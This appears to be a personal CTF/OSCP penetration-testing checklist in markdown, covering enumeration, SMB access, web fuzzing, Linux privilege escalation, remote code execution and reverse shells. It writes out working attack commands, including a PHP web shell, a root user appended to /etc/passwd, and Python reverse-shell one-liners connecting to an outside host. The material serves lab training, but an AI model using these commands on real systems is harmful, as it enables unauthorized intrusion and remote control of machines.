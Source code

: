 # Checklist
# Preperation

<details>
  <summary>Expand</summary>

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)

</details>


# Enumeration

<details>
  <summary>Expand</summary>

<details>
  <summary>NMAP</summary>

- [Howto](active-information-gathering/nmap.md)
- Copy key findings to report
- check results
- Paste to [report](templates/report.md)
- Highlight exploitables/targets	

</details>	

<details>
  <summary>Rustscan</summary>

	- Test	

</details>	
	

<details>
  <summary>enum4linux</summary>
<br />

- [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	- [ ] Highlights
	- [ ] check results
	- [ ] Check SMB null session
	- [ ] system level users	

</details>	


<details>
  <summary>nmap-nse</summary>
<br />

1. [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)

</details>

<details>
  <summary>smb/netbio-ssn</summary>

	- Ports [139, 445]
	- `mkdir smb`
	- `nmap -p139,445 --script=smb-enum-shares $IP`
		- `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
		- smbclient //'IP'/qui -N
		- crackmapexec
		- mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
	- `smbmap -H $IP`
	- `smbclient --no-pass -L //$IP`
	- `smbclient --no-pass \\\\$IP\\anonymous`
	- `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
	- `mget file.name`
	- `smbmap -u <user> -p <PassWord> -H $IP`
	- `smbclient //'IP'/<share> -U'user'%'password'`
	- `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`	

</details>
	
<details>
  <summary>Apache Tomcat</summary>

	- Apache Tomcat [8080]
			- Read Version
			- Check URL (hints)
			- default credentials
			- mfsconsole /is it allowed?
	
</details>

<details>
  <summary>Domain</summary>

	- TODO
	
</details>

<details>
  <summary>ssl/pop3</summary>

	- TODO
	
</details>
	
<details>
  <summary>ssl/imap</summary>

	- TODO
	
</details>
	
<details>
  <summary>TOPIC</summary>

	- TODO
	
</details>
	
<details>
  <summary>	Morse code</summary>

	- Test	

</details>
	
<details>
  <summary>shellshock</summary>

- /cgi-bin
	- [ ] shellshock [Howto](../../foothold/shellshock/README.md)	
	

</details>
	
<details>
  <summary>SSH</summary>

	- hydra
		- [Howto](tools/bruteforce/ssh/hydra)
		- `curl -A "GoogleBot" http://$IP/robots.txt`
		- searchsploit
		- Port knocking
		- nmap port knock 

</details>
	

<details>
  <summary>WEB Enum</summary>
	
- Load each targetted port in browser
- export PORT=80
- `dirb http://$IP:$PORT/ -r`
- `nikto --host http://<IP> -C all` :: tool for webapp
- `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
	- HTTPS you will want to include protocol too
	- `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
	- `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
	- framework/server/service -> searchexploit
	- Check for config through URL's like
	- hostname/username/re-use etc
- LFI
- check for ssh keys
- check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
- vsftpd -> upload, to rce from upload file
- RFI
	- rev shell
		- https://www.revshells.com/
			- `python -c 'import pty;pty.spawn("/bin/bash")'`
	- `linpeas.sh`
- CUPS Http `631`

- Wordpress
	- wpscan

</details>

</details>


# Privilege Escalation

<details>
	<summary>Expand</summary>

- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] File transfer
		- [ ] [Python http.server](../../tools/file-transfer#python-simple-http-server)
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] Privilege escalation Enum
		- [ ] `https://github.com/diego-treitos/linux-smart-enumeration` (is this allowed in OSCP?)
		- [ ] `https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`  (is this allowed in OSCP?)
	- [ ] `kernel exploits?`
		- [ ] https://github.com/mzet-/linux-exploit-suggester
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)

</details>


# Remote Code Execution (RCE)

<details>
	<summary>Expand</summary>

- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


# Reverse Shell

<details>
	<summary>Expand</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>
